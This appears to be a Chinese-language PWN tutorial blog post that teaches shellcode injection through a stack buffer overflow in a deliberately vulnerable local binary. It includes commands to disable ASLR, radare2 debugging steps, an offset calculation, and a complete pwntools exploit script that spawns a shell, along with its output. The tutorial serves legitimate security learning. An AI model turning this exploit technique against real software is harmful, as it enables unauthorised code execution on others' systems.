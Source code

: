 ```yaml
---
title: shellcode
subtitle: 运行你自己的指令
date: 2023-08-08T05:09:08+08:00
draft: false
author:
  name: CuB3y0nd
  link:
  email:
  avatar:
description:
keywords:
license:
comment: true
weight: 0
tags:
  - PWN
  - Stack
categories:
  - PWN
hiddenFromHomePage: false
hiddenFromSearch: false
summary:
resources:
  - name: featured-image
    src: featured-image.jpg
  - name: featured-image-preview
    src: featured-image-preview.jpg
toc: true
math: false
lightgallery: false
password:
message:
repost:
  enable: false
  url:
---
```


在真正的漏洞利用中，你不太可能拥有 `win()` 函数。shellcode 是一种允许 **运行你自己的
指令** 的方法，使你能够在系统上运行任意命令。

**shellcode** 本质上是 **一系列汇编指令**，一旦我们将它输入到二进制文件中，它就会覆盖返回
地址（返回指针）以劫持代码，并执行我们自己的指令。

<!--more-->

{{<admonition type="warning">}}

我保证你可以相信我，但你永远不应该在不知道 shellcode 作用的情况下运行它。
pwntools 很安全，并且几乎拥有你需要的所有 shellcode 。

{{</admonition>}}

shellcode 成功的原因是 [冯·诺伊曼结构](https://zh.wikipedia.org/wiki/%E5%86%AF%C2%B7%E8%AF%BA%E4%BC%8A%E6%9B%BC%E7%BB%93%E6%9E%84)（当今大多数计算机使用的体系结构）不区分
数据和指令——无论你告诉它在哪里运行或运行什么内容，它都会尝试运行它。因此，
即使我们输入的是攻击指令，计算机也不知道这一点，我们可以利用它来发挥我们的优势。

{{< link href="/pwn_assets/shellcode.zip" content="shellcode.zip" title="Download shellcode.zip" download="shellcode.zip" card=true >}}

## 0x01 禁用 ASLR

ASLR 是一种安全技术，虽然它不是专门为对抗 shellcode 而设计的，但它涉及随机化
内存的某些方面，可以看我的这篇博客：[NOPs](https://www.cubeyond.net/nops/) 。这种随机化可能会使我们的 shellcode
变得不可靠，所以我们现在将 [禁用](https://askubuntu.com/questions/318315/how-can-i-temporarily-disable-aslr-address-space-layout-randomization) 它。

```bash
echo 0 | sudo tee /proc/sys/kernel/randomize_va_space
```

{{<admonition type="info">}}

类似这样的功能性指令以后还会碰到更多，我建议使用 `alias` 为它们创建一个别名。
因为就算不考虑能不能记住这些指令，如果每次都手动输入那么长的指令也是一件很
浪费时间的事情。

{{</admonition>}}

{{<admonition type="warning">}}

再次强调，如果你不知道指令的作用，则永远不要运行该指令。

{{</admonition>}}

## 0x02 确定缓冲区位置

使用 `radare2` 调试 `vuln()` ，并找出缓冲区在内存中的起始位置；这就是我们
想要将返回地址指向的位置。

```bash
$ r2 -d -A ./vuln

[0xf7fe3fd0]> s sym.unsafe; pdf
[...]
; var int32_t var_134h @ ebp-0x134
[...]
```

打印出来的这个值是一个 **局部变量**。根据它的大小，可以判断出它很可能是缓冲区。
让我们在 `gets()` 之后设置一个断点并找到确切的返回地址。

```bash
[0x08049172]> db 0x080491a8
[0x08049172]> dc
Overflow me
<<IM HERE>>         <== This was my input
INFO: hit breakpoint at: 0x80491a8
[0x080491a8]> px @ ebp-0x134
- offset -  B4B5 B6B7 B8B9 BABB BCBD BEBF C0C1 C2C3  456789ABCDEF0123
0xffffd6b4  3c3c 494d 2048 4552 453e 3e00 2e4e 3df6  <<IM HERE>>..N=.
[...]
```

它似乎位于 `0xffffd6b4`；如果我们多次运行二进制文件，它应该保持在原来的位置
（如果没有，请确保 **禁用 ASLR！**）。

## 0x03 计算溢出 Padding

现在我们需要计算溢出 Padding 。我们将使用 De Bruijn 序列，如上一篇博客文章中所述。

```bash
$ ragg2 -r -P 500
<COPY THIS>

$ r2 -d -A ./vuln
[0xf7fe3fd0]> dc
Overflow me
<<PASTE HERE>>
[0x73424172]> wopO `dr eip`
312
```

得到溢出 Padding 是 312 字节。

## 0x04 编写 EXP

为了使 shellcode 正确，我们将把 `context.binary` 设置为我们的二进制文件；
这会获取诸如架构、操作系统和位数之类的东西，并使 pwntools 能够为我们提供
shellcode 。

```python
from pwn import *

context.binary = ELF('./vuln')

p = process()
```

{{<admonition type="info">}}

我们可以只使用 `process()` ，因为一旦设置了 `context.binary` 就默认假定
使用该进程。

{{</admonition>}}

现在我们可以使用 pwntools 出色的 shellcode 功能轻易的构建 shellcode 。

```python
# 构建 Shellcode
payload = asm(shellcraft.sh())
# 溢出 Padding
payload = payload.ljust(312, b'A')
# 返回地址
payload += p32(0xffffd6b4)
```

现在让我们将其发送出去并使用 `p.interactive()`，它使我们能够与 shell 通信。

```python
log.info(p.clean())

p.sendline(payload)

p.interactive()
```

{{<admonition type="warning">}}

如果你遇到 `EOFError`，请打印出 shellcode 并尝试在内存中查找它。
栈地址可能是错误的。

你可以参考这篇 [博客](https://www.cubeyond.net/ret2win/) 中的方法来解决这个问题。

{{</admonition>}}

```bash
$ python3 exp.py
[*] 'vuln'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX disabled
    PIE:      No PIE (0x8048000)
    RWX:      Has RWX segments
[+] Starting local process 'vuln': pid 3903
[*] Overflow me
[*] Switching to interactive mode
$ whoami
cub3y0nd
$ ls
exp.py  source.c  vuln
```

## 0x05 最终 EXP

```python {title="exp.py"}
from pwn import *

context.binary = ELF('./vuln')

p = process()

# 构建 shellcode
payload = asm(shellcraft.sh())
# 溢出 Padding
payload = payload.ljust(312, b'A')
# 返回地址
payload += p32(0xffffd6b4)

log.info(p.clean())

p.sendline(payload)

p.interactive()
```

## 0x06 总结

- 当提示输入时，我们注入了 shellcode
- 然后，我们通过覆盖栈上保存的返回地址以指向我们的 shellcode
来劫持代码执行
- 一旦返回地址压入 EIP 中，它就指向我们的 shellcode
- 这导致程序执行我们的指令，为我们（在本例中）提供了用于执行
任意命令的 shell
